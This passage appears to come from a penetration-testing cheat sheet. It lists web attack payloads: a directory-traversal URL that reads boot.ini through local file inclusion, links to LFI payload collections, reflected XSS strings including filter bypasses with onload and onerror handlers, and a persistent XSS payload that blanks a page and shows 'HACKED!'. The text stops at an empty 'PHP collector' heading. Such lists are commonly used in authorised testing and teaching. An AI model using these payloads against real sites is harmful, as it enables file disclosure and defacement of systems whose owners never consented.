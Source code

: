 ```text
http://<target>/script.php?page=../../../../../../../../boot.ini
```

**LFI Payloads**

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
* [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

#### encode

### XSS

#### Reflected

**Simple test**

This is a simple test to see what happens, this is not a prove that the field is vuln to xss

```text
<plaintext>
```

**Simple XSS test**

```text
<script>alert('Found')</script>
```

```text
"><script>alert(Found)</script>">
```

```text
<script>alert(String.fromCharCode(88,83,83))</script>
```

**Bypass filter of tag script**

`" onload="alert(String.fromCharCode(88,83,83))`

```text
" onload="alert('XSS')
```

bla is not a valid image, so this cause an error

```text
<img src='bla' onerror=alert("XSS")>
```

#### Persistent

```text
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
```

#### PHP collector
